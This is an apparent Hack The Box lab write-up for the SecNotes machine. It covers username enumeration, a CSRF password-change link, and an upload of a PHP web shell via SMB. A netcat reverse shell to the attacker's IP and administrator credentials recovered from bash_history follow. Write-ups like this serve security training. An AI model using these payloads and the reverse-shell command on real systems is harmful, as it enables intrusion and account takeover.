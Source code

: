 # SecNotes

This is the write-up for the box SecNotes that got retired at the 19th January 2019.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.97    secnotes.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/secnotes.nmap 10.10.10.97
```

```markdown
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```markdown
nmap -p- 10.10.10.97
```
```markdown
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Running default scripts and version enumeration on port 8808:
```markdown
nmap -sC -sV -p 8808 10.10.10.97
```
```markdown
PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is a login form and the possibility to sign up:

![Login page](secnotes_web-1.png)

When trying out some usernames and passwords it says _"No account found with that username."_ but after creating a user and sending wrong credentials it does not show this message, which means this is a way to enumerate usernames.

Lets send this to any web proxy tool like **Burpsuite** to get the HTTP header and try to brute-force some usernames with **Wfuzz**:
```markdown
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=Pass1234" --hs "No account found with that username." http://10.10.10.97/login.php
```

It finds one username called _tyler_. After logging in with our created user, it shows that name also on the top in a message:

![Logged in as our user](secnotes_web-2.png)

The feature _"New Note"_ lets us create a note and when trying to create it with HTML tags, it gets parsed:
```markdown
Title
<h1>test title 1</h1>

Note
<center> test note 1</center>
```

There is no attack path with the _"New Note"_ feature.

The feature _"Change Password"_ sends the password without any token to the server:
```markdown
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
(...)
password=Pass123&confirm_password=Pass1234&submit=submit
```

When changing the **POST** parameter to **GET**, it looks like this and still works:
```markdown
GET /change_pass.php?password=Pass1243&confirm_password=Pass1234&submit=submit
```

The feature _"Contact Us"_ allows us to input any message text and allegedly sends it to _tyler_:

![Contact form](secnotes_web-3.png)

Lets start a listener on any port and send a link with my IP, to see if he follows links:
```markdown
Message:
http://10.10.14.20:9001
```

After some seconds the listener on port 9001 gets a connection back and confirms, that he follows links.

In summary this challenge looks like some sort of **Cross-Site-Scripting (XSS)** or **Cross-Site-Request-Forgery (CSRF)** task.

### Cross-Site-Request-Forgery Attack

In combination of sending a link to _tyler_ with a request to change the password, it would be possible that he changes his password to something we control.

Lets send _tyler_ a link of the _"Change Password"_ feature:
```markdown
Message:
http://10.10.10.97/change_pass.php?password=Pass123&confirm_password=Pass123&submit=submit
```

After its reviewed, the password of _tyler_ changes to _"Pass123"_ and login as him works:

![Homepage of tyler](secnotes_web-4.png)

One of the notes look like an SMB path and credentials:
```markdown
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## Checking SMB (Port 445)

With the gained credentials, it is possible to enumerate the SMB shares with **SMBmap**:
```markdown
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

There are Read-Write permissions on the _new-site_ share.
```markdown
smbclient -U tyler%92g!mA8BGjOirkL%OG*& \\\\10.10.10.97\\new-site
```

There are only two files called _iisstart.html_ and _isstart.png_ which are default IIS files.

## Checking HTTP (Port 8808)

On the web page on port 8808 it shows the default IIS site which were found in the SMB share.
This means that any uploaded file on the SMB share will also be on this web service and thus we have control over the web service.

Creating a **PHP** shell:
```markdown
<?php system($_REQUEST['cmd']) ?>
```

Uploading it to the SMB share:
```markdown
smb: \> put shell.php
```

Accessing it and executing `whoami`:
```markdown
http://10.10.10.97:8808/shell.php?cmd=whoami
```

The output is _secnotes\tyler_ and proofs successful code execution.
Lets upload **Netcat for Windows** and start a reverse shell connection:
```markdown
smb: \> put nc64.exe
```

Starting reverse shell with **Netcat**:
```markdown
http://10.10.10.97:8808/shell.php?cmd=nc64.exe 10.10.14.20 9001 -e powershell
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as the user _tyler_.

## Privilege Escalation

In the home directory of _tyler_ in the _Desktop_ folder is a file called _bash.lnk_ which is a link file that links to _"C:\Windows\System32\bash.exe"_.
So on this Windows box is a _bash_ shell that can be used by simply executing `bash`.

On this _bash terminal_ it says that we are root, but this doesn't make us Administrator on the box.
The _/root/.bash_history_ file has contents in it and in there is a command with credentials:
```markdown
(...)
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
(...)
```

Lets use the command ourselves from our local client:
```markdown
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Now we are connected to the SMB share as Administrator and can obtain any file on the box!

With **psexec** it is also possible to gain a shell with _Administrator_:
```markdown
python3 psexec.py administrator@10.10.10.97
```
